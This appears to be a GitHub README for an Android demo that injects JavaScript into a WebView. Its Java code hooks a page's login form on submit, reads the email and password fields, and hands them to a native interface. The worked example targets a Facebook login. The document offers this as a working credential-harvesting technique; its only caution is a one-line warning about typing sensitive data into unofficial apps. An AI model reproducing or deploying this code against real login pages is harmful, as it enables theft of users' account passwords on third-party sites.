 Android-Javascript-Injection
============================

This demo show you how to inject javascript to webview,
and get input value before submit.


<br/>

Step 1 : create a class which called by javascript
-----------
```Java
class MyJavaScriptInterface
{
    @JavascriptInterface
    public void processHTML(String html)
    {
        //called by javascript
    }
}
```



Step 2 : register interface for javascript
-----------
```Java
webview1.getSettings().setJavaScriptEnabled(true);
webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
```



Step 3 : inject javascript to page
-----------
```Java
webview1.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
        super.onPageFinished(view, url);

        StringBuilder sb = new StringBuilder();
        sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
        sb.append("var objPWD, objAccount;var str = '';");
        sb.append("var inputs = document.getElementsByTagName('input');");
        sb.append("for (var i = 0; i < inputs.length; i++) {");
        sb.append("if (inputs[i].type.toLowerCase() === 'password') {objPWD = inputs[i];}");
        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
        sb.append("}");
        sb.append("if (objAccount != null) {str += objAccount.value;}");
        sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
        sb.append("window.MYOBJECT.processHTML(str);");
        sb.append("return true;");
        sb.append("};");
                
        view.loadUrl("javascript:" + sb.toString());
    }

});
```

Example : facebook login injection
-----------
![](pic1.png)
<br/>
![](pic2.png)

<br/>
Note : it's dangerous to type important data in webview with unoffical app.
-----------

<br/><br/>
henrychuang.tw@gmail.com
